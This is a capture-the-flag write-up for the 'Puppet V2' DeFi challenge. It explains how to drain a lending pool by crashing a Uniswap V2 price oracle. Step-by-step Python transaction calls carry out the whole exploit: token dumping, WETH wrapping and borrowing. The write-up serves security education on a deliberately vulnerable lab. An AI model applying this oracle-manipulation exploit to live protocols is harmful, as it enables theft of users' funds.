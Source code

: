 ## Puppet V2

### Challenge description

> The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!
>
> Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
>
> You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

### Solution

This challenge is *identical* to the puppet challenge, except it uses Uniswap V2. Once again, we can manipulate the price of the token by selling a bunch of DVT tokens for ETH, which reduces the price of DVT tokens relative to ETH so much that it's possible to borrow the entire token balance of the PuppetV2Pool pool.

The only added change here is that Uniswap V2 only performs token to token swaps, where ETH must be wrapped as WETH (an ERC20 token 1:1 with ETH).

The steps to perform the attack are really similar to those of the Puppet challenge:

First we must approve the token spending limit for the Uniswap V2 router:

```py
token.approve(uniswap_router.address, 2**256 - 1, _fromAttacker)
```

Then exchange all the tokens in our wallet for ETH:

```py
uniswap_router.swapExactTokensForETH(
    ether_to_wei(10000), 
    9.92, 
    [token.address, weth.address],
    attacker.address,
    web3.eth.get_block('latest').timestamp * 2,
    _fromAttacker
)
```

`swapTokensForExactTokens()` can also be used, as we're going to use WETH anyway, but we would have to wrap some extra ETH to reach the right amount to drain the pool anyway, so I decided to just use `swapExactTokensForETH()`.

Then obtain what amount of WETH we must deposit to drain the pool:

```py
amount = lending_pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
```

Deposit this same amount into the WETH contract:

```py
weth.deposit(_fromAttacker | value_dict(amount))
```

Now with the WETH in hand we must approve the spending limit of WETH for the PuppetV2Pool contract to the `amount` obtained before (or more):

```py
weth.approve(lending_pool.address, amount, _fromAttacker)
```

Given that the PuppetV2Pool calls `transferFrom()` in `borrow()`:

```solidity
_weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);
```

Then just call borrow to drain the pool:

```py
lending_pool.borrow(POOL_INITIAL_TOKEN_BALANCE, _fromAttacker)
```

And we should receive all the DVT tokens from the pool.
